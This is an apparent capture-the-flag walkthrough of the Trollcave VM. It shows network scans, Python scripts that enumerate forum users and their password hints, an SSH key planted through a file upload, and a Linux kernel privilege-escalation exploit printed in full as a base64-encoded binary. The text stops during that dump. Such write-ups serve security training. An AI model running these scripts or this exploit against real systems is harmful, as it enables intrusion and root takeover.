


#### Trollcave-v1-2

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Masscan](#masscan)
- [Web Enumeration](#web-enumeration)
- [Privilege Escalation](#privilege-escalation)
- [Method 2](#method-2)
- [XSS](#xss)
- [Web Server Enumeration](#web-server-enumeration)
- [Enumerating 8888](#enumerating-8888)

###### Attacker Info

```sh
root@kali:~/trollcave# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.28  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 00:0c:29:a3:a1:09  txqueuelen 1000  (Ethernet)
        RX packets 15096  bytes 18820285 (17.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 212968  bytes 12872687 (12.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 172  bytes 11656 (11.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 172  bytes 11656 (11.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/trollcave#
```

###### Identify Victim

```sh
root@kali:~/trollcave# netdiscover
 Currently scanning: 192.168.15.0/16   |   Screen View: Unique Hosts

 8 Captured ARP Req/Rep packets, from 8 hosts.   Total size: 480
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.7     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.30    f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.30    08:00:27:d0:d7:c5      1      60  PCS Systemtechnik GmbH
 192.168.1.6     bc:9f:ef:69:35:19      1      60  Apple, Inc.
 192.168.1.9     08:6d:41:ba:bd:ec      1      60  Apple, Inc.
 192.168.1.10    70:77:81:c0:6c:33      1      60  Hon Hai Precision Ind. Co.,Ltd.
 192.168.1.25    3c:91:57:12:05:73      1      60  Yulong Computer Telecommunication Scientific (Shenzhen) Co.,Ltd

root@kali:~/trollcave#
```

###### Nmap Scan

```sh
root@kali:~/trollcave# nmap -sV -sC -oA trollcave.nmap 192.168.1.30 -p-
\Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-05 19:11 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 192.168.1.30
Host is up (0.00095s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:ab:d7:2e:58:74:aa:86:28:dd:98:77:2f:53:d9:73 (RSA)
|   256 57:5e:f4:77:b3:94:91:7e:9c:55:26:30:43:64:b1:72 (ECDSA)
|_  256 17:4d:7b:04:44:53:d1:51:d2:93:e9:50:e0:b2:20:4c (ED25519)
80/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Trollcave
MAC Address: F4:0F:24:33:5E:D1 (Apple)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.07 seconds
root@kali:~/trollcave#
```

###### Masscan

```sh
root@kali:~# masscan 192.168.1.30 -p 0-65535

Starting masscan 1.0.3 (http://bit.ly/14GZzcT) at 2018-05-05 23:13:01 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 80/tcp on 192.168.1.30
Discovered open port 22/tcp on 192.168.1.30
root@kali:~#
```

###### Web Enumeration

```
http://192.168.1.30/
```


```
http://192.168.1.30/users/17
http://192.168.1.30/users/16
http://192.168.1.30/users/1
```


`user-role-enum.py`

```python
import requests
import re

def GetUserByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	# Match <a href="/send_pm?recipient_name=King">PM</a>
	username = re.search('recipient_name=(.*?)"', response).group(1)
	return username

def GetRoleByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	"""
	<div class='user-info'>
	<b>
	Superadmin
	</b>
	"""
	role = re.search('>\x0A<b>\x0A(.*?)\x0A</b>', response).group(1)
	return role

for i in range(0,20):
	try:
		print(GetUserByID(i) + " : " + GetRoleByID(i))
	except:
		None
```


```sh
root@kali:~/trollcave# curl http://192.168.1.30/users/1 | xxd
```


```sh
root@kali:~/trollcave# python user-role-enum.py
King : Superadmin
dave : Admin
dragon : Admin
coderguy : Admin
cooldude89 : Moderator
Sir : Moderator
Q : Moderator
teflon : Moderator
TheDankMan : Regular member
artemus : Regular member
MrPotatoHead : Regular member
Ian : Regular member
kev : Member
notanother : Member
anybodyhome : Member
onlyme : Member
xer : Member
root@kali:~/trollcave#
root@kali:~/trollcave# python user-role-enum.py > Users
```

- User Enumeration
	- Existing User

	

	- Non Existing User

	


`user-hint-enum.py`

```python
import requests
import re

def GetUserByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	# Match <a href="/send_pm?recipient_name=King">PM</a>
	username = re.search('recipient_name=(.*?)"', response).group(1)
	return username

def GetRoleByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	"""
	<div class='user-info'>
	<b>
	Superadmin
	</b>
	"""
	role = re.search('>\x0A<b>\x0A(.*?)\x0A</b>', response).group(1)
	return role

def GetHintByID(id):
	username = GetUserByID(id)
	cookie = {'_thirtytwo_session':'RHZ0Q2ZlY0hXaExlbjh5bUw0QkladzBSVTBQaHhBVzlKUWpqRGtTcHZlSDJTZjRaY0pkL3lWNDl4aXBaa1owdDllbnNQK1lzd2ZVMjBZNTdZUnNSRERnQTFRaUREMlVtWkNiQ0R5c1R3YmxMNjdacWJjbWszOS9MVGdralJtNnFRTmR4WTF1b2JSR2hWaWZtSWdxOW5yL1ZoZVBGMW9rMGNZMWxDQ3VVWFViRUtVUk10S05sa0IzZVJWclI3K2NLcEVUOW5hUnBjcW1XQWFyZ1phZkdwbGV0SlhQeWo2VkF3Ykc0dnNaNUp5OD0tLWtxUmM4T3o4SGQ3N251bnNvdHVyb1E9PQ%3D%3D--540a8dc376ed2b26f7f47ae7cbde2e40b88ebb79'}
	payload = {'authenticity_token':'qfp4saiBzuXN2AxUq4GGK7+tWnOvTOcs8v50gDZ64PfDkEYz3LvnbuB6J/b73gICoQZiFMqY/L9EWVdaejbM7Q==', 'session[name]':username, 'session[password]':'akdjsfbjhds', 'commit': 'Log in'}
	response = (requests.post('http://192.168.1.30/login/', data=payload, cookies=cookie).text).strip()
	hint = re.search('notice\'>(.*?)<', response).group(1)
	return username, hint

for i in range(0,20):
	try:
		username, hint = GetHintByID(i)
		print(username + "\t" + hint)
	except:
		None
```

```sh
root@kali:~/trollcave# python user-hint-enum.py
King	:)
dave	nah lol
dragon	Over fire and over stone / Over water and over bone / Shining out like jewels of light / On a sheet of purest night
coderguy	;)
cooldude89	i am the dankest
Sir	It's super secure
Q	Your normal password
teflon	swordfish
TheDankMan	420
artemus	garden
MrPotatoHead	you know...
Ian	a
kev	mother's maiden name
notanother	(:
anybodyhome	no one is
onlyme	It is what it is
xer	fave pronoun
root@kali:~/trollcave#
root@kali:~/trollcave# python user-hint-enum.py > Userhints
```

```
http://192.168.1.30/blogs/6
```


```
https://www.railstutorial.org/book/password_reset
```


```
http://192.168.1.30/password_resets/new
```


```
http://192.168.1.30/admin
```


```sh
root@kali:~/trollcave# touch test1 test2
```

```
http://192.168.1.30/user_files
```


```
http://192.168.1.30/user_files/8
```


```
http://192.168.1.30/user_files/9
```


```sh
root@kali:~/trollcave# ssh-keygen -f rails
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in rails.
Your public key has been saved in rails.pub.
The key fingerprint is:
SHA256:c0HR8CmKl16DxMSlIwvGRmbfLLCGMlHr+d2aU03i1zM root@kali
The key's randomart image is:
+---[RSA 2048]----+
|... =  ...=+     |
| . B + =.o ...   |
|o o B + B o o    |
| + = . *.=.o     |
|  o   o.S++.     |
|   . . +o+o.E    |
|    . ..o.   o   |
|      .o         |
|      o.         |
+----[SHA256]-----+
root@kali:~/trollcave#
root@kali:~/trollcave# ls -l rails*
-rw------- 1 root root 1675 May  5 21:46 rails
-rw-r--r-- 1 root root  391 May  5 21:46 rails.pub
root@kali:~/trollcave#
root@kali:~/trollcave# mv rails.pub authorized_keys
root@kali:~/trollcave# chmod 400 rails
```


###### Privilege Escalation

```sh
root@kali:~/trollcave# mv rails id_rsa-rails
root@kali:~/trollcave# ssh -i id_rsa-rails rails@192.168.1.30
The authenticity of host '192.168.1.30 (192.168.1.30)' can't be established.
ECDSA key fingerprint is SHA256:5i/FfNIcrHa44dcYPjVa145eHfSZYZESRXiv0d62SeE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.30' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Fri Oct 20 13:23:46 2017 from 192.168.94.84
$ bash
rails@trollcave:~$ id
uid=1001(rails) gid=1001(rails) groups=1001(rails)
rails@trollcave:~$ uname -a
Linux trollcave 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
rails@trollcave:~$
```

[Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation](https://www.exploit-db.com/raw/44298/)

```sh
root@kali:~/trollcave# vi privesc.c
root@kali:~/trollcave# gcc privesc.c -o privesc
root@kali:~/trollcave# base64 privesc
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAEAkAAAAAAABAAAAAAAAAAFguAAAAAAAAAAAAAEAAOAAJ
AEAAHgAdAAYAAAAEAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA+AEAAAAAAAD4AQAAAAAAAAgA
AAAAAAAAAwAAAAQAAAA4AgAAAAAAADgCAAAAAAAAOAIAAAAAAAAcAAAAAAAAABwAAAAAAAAAAQAA
AAAAAAABAAAABQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMgWAAAAAAAAyBYAAAAAAAAAACAA
AAAAAAEAAAAGAAAA6B0AAAAAAADoHSAAAAAAAOgdIAAAAAAAsAIAAAAAAAD4AgEAAAAAAAAAIAAA
AAAAAgAAAAYAAAD4HQAAAAAAAPgdIAAAAAAA+B0gAAAAAADgAQAAAAAAAOABAAAAAAAACAAAAAAA
AAAEAAAABAAAAFQCAAAAAAAAVAIAAAAAAABUAgAAAAAAAEQAAAAAAAAARAAAAAAAAAAEAAAAAAAA
AFDldGQEAAAAeBMAAAAAAAB4EwAAAAAAAHgTAAAAAAAApAAAAAAAAACkAAAAAAAAAAQAAAAAAAAA
UeV0ZAYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAABS
5XRkBAAAAOgdAAAAAAAA6B0gAAAAAADoHSAAAAAAABgCAAAAAAAAGAIAAAAAAAABAAAAAAAAAC9s
aWI2NC9sZC1saW51eC14ODYtNjQuc28uMgAEAAAAEAAAAAEAAABHTlUAAAAAAAMAAAACAAAAAAAA
AAQAAAAUAAAAAwAAAEdOVQBKYoLauiBca8syK0GT3pla83C9awIAAAATAAAAAQAAAAYAAAAAAQAA
AAAAAgAAAAATAAAAOfKLHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnAAAAEgAAAAAAAAAA
AAAAAAAAAAAAAACkAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAXAAAAEgAAAAAAAAAAAAAAAAAAAAAA
AAA4AAAAEgAAAAAAAAAAAAAAAAAAAAAAAACSAAAAEgAAAAAAAAAAAAAAAAAAAAAAAABRAAAAEgAA
AAAAAAAAAAAAAAAAAAAAAABKAAAAEgAAAAAAAAAAAAAAAAAAAAAAAABZAAAAEgAAAAAAAAAAAAAA
AAAAAAAAAACAAAAAEgAAAAAAAAAAAAAAAAAAAAAAAABYAAAAEgAAAAAAAAAAAAAAAAAAAAAAAABv
AAAAEgAAAAAAAAAAAAAAAAAAAAAAAADAAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAcAAAAEgAAAAAA
AAAAAAAAAAAAAAAAAAAQAAAAEgAAAAAAAAAAAAAAAAAAAAAAAAALAAAAEgAAAAAAAAAAAAAAAAAA
AAAAAADPAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAB3AAAAEgAAAAAAAAAAAAAAAAAAAAAAAABgAAAA
IgAAAAAAAAAAAAAAAAAAAAAAAABDAAAAEQAZAKAgIAAAAAAACAAAAAAAAAAAbGliYy5zby42AGV4
aXQAcGVycm9yAHB1dHMAc29ja2V0cGFpcgBfX2Vycm5vX2xvY2F0aW9uAHNldHNvY2tvcHQAc3Rk
ZXJyAHN5c3RlbQBnZXR1aWQAZnByaW50ZgBfX2N4YV9maW5hbGl6ZQBzeXNjYWxsAHN0cmVycm9y
AF9fbGliY19zdGFydF9tYWluAHdyaXRlAEdMSUJDXzIuMi41AF9JVE1fZGVyZWdpc3RlclRNQ2xv
bmVUYWJsZQBfX2dtb25fc3RhcnRfXwBfSVRNX3JlZ2lzdGVyVE1DbG9uZVRhYmxlAAAAAAIAAAAC
AAIAAgACAAIAAgACAAIAAgAAAAIAAgACAAAAAgACAAIAAAAAAAAAAQABAAEAAAAQAAAAAAAAAHUa
aQkAAAIAmAAAAAAAAADoHSAAAAAAAAgAAAAAAAAAEAoAAAAAAADwHSAAAAAAAAgAAAAAAAAA0AkA
AAAAAACIICAAAAAAAAgAAAAAAAAAiCAgAAAAAACQICAAAAAAAAgAAAAAAAAAeBEAAAAAAADYHyAA
AAAAAAYAAAACAAAAAAAAAAAAAADgHyAAAAAAAAYAAAAJAAAAAAAAAAAAAADoHyAAAAAAAAYAAAAM
AAAAAAAAAAAAAADwHyAAAAAAAAYAAAAQAAAAAAAAAAAAAAD4HyAAAAAAAAYAAAASAAAAAAAAAAAA
AACgICAAAAAAAAUAAAATAAAAAAAAAAAAAAAYICAAAAAAAAcAAAABAAAAAAAAAAAAAAAgICAAAAAA
AAcAAAADAAAAAAAAAAAAAAAoICAAAAAAAAcAAAAEAAAAAAAAAAAAAAAwICAAAAAAAAcAAAAFAAAA
AAAAAAAAAAA4ICAAAAAAAAcAAAAGAAAAAAAAAAAAAABAICAAAAAAAAcAAAAHAAAAAAAAAAAAAABI
ICAAAAAAAAcAAAAIAAAAAAAAAAAAAABQICAAAAAAAAcAAAAKAAAAAAAAAAAAAABYICAAAAAAAAcA
AAALAAAAAAAAAAAAAABgICAAAAAAAAcAAAANAAAAAAAAAAAAAABoICAAAAAAAAcAAAAOAAAAAAAA
AAAAAABwICAAAAAAAAcAAAAPAAAAAAAAAAAAAAB4ICAAAAAAAAcAAAARAAAAAAAAAAAAAABIg+wI
SIsF3RcgAEiFwHQC/9BIg8QIwwAAAAAAAAAAAP814hcgAP8l5BcgAA8fQAD/JeIXIABoAAAAAOng
/////yXaFyAAaAEAAADp0P////8l0hcgAGgCAAAA6cD/////JcoXIABoAwAAAOmw/////yXCFyAA
aAQAAADpoP////8luhcgAGgFAAAA6ZD/////JbIXIABoBgAAAOmA/////yWqFyAAaAcAAADpcP//
//8lohcgAGgIAAAA6WD/////JZoXIABoCQAAAOlQ/////yWSFyAAaAoAAADpQP////8lihcgAGgL
AAAA6TD/////JYIXIABoDAAAAOkg/////yXyFiAAZpAAAAAAAAAAADHtSYnRXkiJ4kiD5PBQVEyN
BToIAABIjQ3DBwAASI09jQcAAP8VphYgAPQPH0QAAEiNPVEXIABVSI0FSRcgAEg5+EiJ5XQZSIsF
ehYgAEiFwHQNXf/gZi4PH4QAAAAAAF3DDx9AAGYuDx+EAAAAAABIjT0RFyAASI01ChcgAFVIKf5I
ieVIwf4DSInwSMHoP0gBxkjR/nQYSIsFQRYgAEiFwHQMXf/gZg8fhAAAAAAAXcMPH0AAZi4PH4QA
AAAAAIA90RYgAAB1L0iDPRcWIAAAVUiJ5XQMSIs9mhYgAOgN////6Ej////GBakWIAABXcMPH4AA
AAAA88NmDx9EAABVSInlXelm////VUiJ5UiD7HCJfaxIiXWgiVWoSIlNmESJRZRIx0WwAAAAAEjH
RbgAAAAASMdFwAAAAABIx0XIAAAAAEjHRdAAAAAASMdF2AAAAABIx0XgAAAAAEjHRegAAAAASMdF
8AAAAACLRayJRbCLRahImEjB6AOJRbRIi0WgSIlFuEiLRZhIiUXAx0XIAQAAAMdFzAAAAQBIjQUt
FiAASIlF0ItFlIlF2MYFHBYgAABIjUWwuUgAAABIicK+BQAAAL9BAQAAuAAAAADozP3//8nDVUiJ
5UiD7GCJfayJdaiJVaSJTaBIx0WwAAAAAEjHRbgAAAAASMdFwAAAAABIx0XIAAAAAEjHRdAAAAAA
SMdF2AAAAABIx0XgAAAAAEjHRegAAAAASMdF8AAAAACLRayJRbCLRaiJRbSLRaSJRbiLRaCJRbxI
jUWwuUgAAABIicK+AAAAAL9BAQAAuAAAAADoNv3//8nDVUiJ5UiD7GBIiX2oSIl1oEjHRbAAAAAA
SMdFuAAAAABIx0XAAAAAAEjHRcgAAAAASMdF0AAAAABIx0XYAAAAAEjHReAAAAAASMdF6AAAAABI
x0XwAAAAAIsF7hQgAIlFsEiNRahIiUW4SI1FoEiJRcBIjUWwuUgAAABIicK+AgAAAL9BAQAAuAAA
AADoo/z//8nDVUiJ5UiD7GBIiX2oSIl1oEjHRbAAAAAASMdFuAAAAABIx0XAAAAAAEjHRcgAAAAA
SMdF0AAAAABIx0XYAAAAAEjHReAAAAAASMdF6AAAAABIx0XwAAAAAIsFWxQgAIlFsEiLRahIiUW4
SItFoEiJRcBIjUWwuUgAAABIicK+AQAAAL9BAQAAuAAAAADoEPz//8nDVUiJ5UiD7BBIiX34SIsF
6xMgAEiLVfhIjTUBBgAASInHuAAAAADo0/v//7//////6An8//9VSInluQMAAAC6CAAAAL4EAAAA
vwIAAADo8v3//4kFzhMgAIsFyBMgAIXAeRboJ/v//4sAicfo3vv//0iJx+iI////SIsFbxMgAEG4
AAAAAEiNDZ4FAAC6SAEAAEiJxr8BAAAA6Nr8//+JBYYTIACLBYATIACFwHkW6Nv6//+LAInH6JL7
//9IicfoPP///0iNDVMTIAC6AAAAAL4CAAAAvwEAAADoP/v//4XAdBbopvr//4sAicfoXfv//0iJ
x+gH////iwUjEyAAQbgEAAAASI0NHhMgALoyAAAAvgEAAACJx+iR+v//hcB5Fuho+v//iwCJx+gf
+///SInH6Mn+//+QXcNVSInlSIPsUIsF1hIgAEiNTbC6QAAAAEiJzonH6GP6//9IiUX4SIN9+AB5
DkiNPcEEAADovPr//+smSIN9+EB0H0iLBXwSIABIi1X4SI01pwQAAEiJx7gAAAAA6GT6///Jw1VI
ieVIg+wgiX3sSI1V+EiNRexIidZIicfos/3//4XAdBboy/n//4sAicfogvr//0iJx+gs/v//SItF
+MnDVUiJ5b4BAAAAvwAAAADo7fz//74AAAAAvwEAAADo3vz//74AAAAAvwIAAADoz/z//+gq////
vwIAAADogv///13DVUiJ5UiD7BBIiX34vgAAAAC/AAAAAOij/P//SItF+EiJxr8BAAAA6JL8//++
AAAAAL8CAAAA6IP8///o3v7//78CAAAA6Db////Jw1VIieVIg+wQSIl9+EiJdfC+AgAAAL8AAAAA
6FP8//9Ii0X4SInGvwEAAADoQvz//0iLRfBIica/AgAAAOgx/P//6Iz+//+QycNVSInlSIl9+EiL
RfhIJQDA//9dw1VIieVIg+ww6Aj///9IiUX4SLj//////4f//0g5Rfh3DEiNPVkDAADoDv3//0iL
RfhIicfos////0iJRfBIuP//////h///SDlF8HcMSI09NgMAAOji/P//SItF8EiJx+jy/v//SIlF
6Ei4//////+H//9IOUXodwxIjT0TAwAA6Lb8//9Ii0XoSInGSI09DwMAALgAAAAA6Iz4//9Ii0Xo
SAX4BQAASInH6Kj+//9IiUXgSLj//////4f//0g5ReB3DEiNPesCAADobPz//0iLReBIg8AESIlF
2Ei4//////+H//9IOUXYdwxIjT3SAgAA6ET8//9Ii0XYSInGSI09zQIAALgAAAAA6Br4//9Ii0XY
vgAAAABIicfog/7//+jk9///hcB1IkiNPbACAADopPf//0iNPbgCAADo2Pf//78AAAAA6C74//9I
jT2sAgAA6OT7//+QycNVSInlSIPsEIl9/EiJdfDoAvz//+iN/v//uAAAAADJw2YuDx+EAAAAAAAP
H0QAAEFXQVZJiddBVUFUTI0l5gwgAFVIjS3mDCAAU0GJ/UmJ9kwp5UiD7AhIwf0D6N/2//9Ihe10
IDHbDx+EAAAAAABMifpMifZEie9B/xTcSIPDAUg53XXqSIPECFtdQVxBXUFeQV/DkGYuDx+EAAAA
AADzwwAASIPsCEiDxAjDAAAAAQACAAAAAAC0CQAA/////1UJAgD/////twAAAAAAAACVAAAAAAAA
ABgZAAADAAAAAAAAAAAAAAC/kQAAAAAAAL+iAAAAAAAABwIAAPz///9iCvz/AAAAAIUAAAABAAAA
VQABAAAAAACVAAAAAAAAAHkGAAAAAAAAv5EAAAAAAAC/ogAAAAAAAAcCAAD8////Ygr8/wEAAACF
AAAAAQAAAFUAAQAAAAAAlQAAAAAAAAB5BwAAAAAAAL+RAAAAAAAAv6IAAAAAAAAHAgAA/P///2IK
/P8CAAAAhQAAAAEAAABVAAEAAAAAAJUAAAAAAAAAeQgAAAAAAAC/AgAAAAAAALcAAAAAAAAAVQYD
AAAAAAB5cwAAAAAAAHsyAAAAAAAAlQAAAAAAAABVBgIAAQAAAHuiAAAAAAAAlQAAAAAAAAB7hwAA
AAAAAJUAAAAAAAAAAGVycm9yOiAlcwoAR1BMAHdyaXRlAHNob3J0IHdyaXRlOiAlbHUKAGJvZ3Vz
IGZwAGJvZ3VzIHNwAGJvZ3VzIHRhc2sgcHRyAHRhc2tfc3RydWN0ID0gJWx4CgBib2d1cyBjcmVk
IHB0cgBib2d1cyB1aWQgcHRyAHVpZHB0ciA9ICVseAoAc3Bhd25pbmcgcm9vdCBzaGVsbAAvYmlu
L2Jhc2gAbm90IHZ1bG5lcmFibGU/AAAAAAEbAzukAAAAEwAAAKj0///wAAAAiPX//xgBAACY9f//
wAAAAKL2//8wAQAAbvf//1ABAAAE+P//cAEAAJf4//+QAQAAKvn//7ABAABf+f//zAEAAGT6///s
AQAAxvr//wwCAAAE+///LAIAAEb7//9MAgAAkvv//2wCAADb+///jAIAAO/7//+sAgAASf3//8wC
AAB4/f//8AIAAOj9//84AwAAAAAAABQAAAAAAAAAAXpSAAF4EAEbDAcIkAEHEBQAAAAcAAAA0PT/
/ysAAAAAAAAAAAAAABQAAAAAAAAAAXpSAAF4EAEbDAcIkAEAACQAAAAcAAAAsPP//+AAAAAADhBG
DhhKDwt3CIAAPxo7KjMkIgAAAAAUAAAARAAAAGj0//8IAAAAAAAAAAAAAAAcAAAAXAAAAGr1///M
AAAAAEEOEIYCQw0GAscMBwgAABwAAAB8AAAAFvb//5YAAAAAQQ4QhgJDDQYCkQwHCAAAHAAAAJwA
AACM9v//kwAAAABBDhCGAkMNBgKODAcIAAAcAAAAvAAAAP/2//+TAAAAAEEOEIYCQw0GAo4MBwgA
ABgAAADcAAAAcvf//zUAAAAAQQ4QhgJDDQYAAAAcAAAA+AAAAIv3//8FAQAAAEEOEIYCQw0GAwAB
DAcIABwAAAAYAQAAcPj//2IAAAAAQQ4QhgJDDQYCXQwHCAAAHAAAADgBAACy+P//PgAAAABBDhCG
AkMNBnkMBwgAAAAcAAAAWAEAAND4//9CAAAAAEEOEIYCQw0GfQwHCAAAABwAAAB4AQAA8vj//0wA
AAAAQQ4QhgJDDQYCRwwHCAAAHAAAAJgBAAAe+f//SQAAAABBDhCGAkMNBgJEDAcIAAAcAAAAuAEA
AEf5//8UAAAAAEEOEIYCQw0GTwwHCAAAABwAAADYAQAAO/n//1oBAAAAQQ4QhgJDDQYDVQEMBwgA
IAAAAPgBAAB1+v//IAAAAABBDhCGAkMNBlsMBwgAAAAAAAAARAAAABwCAACA+v//ZQAAAABCDhCP
AkIOGI4DRQ4gjQRCDiiMBUgOMIYGSA44gwdNDkByDjhBDjBBDihCDiBCDhhCDhBCDggAEAAAAGQC
AACo+v//AgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
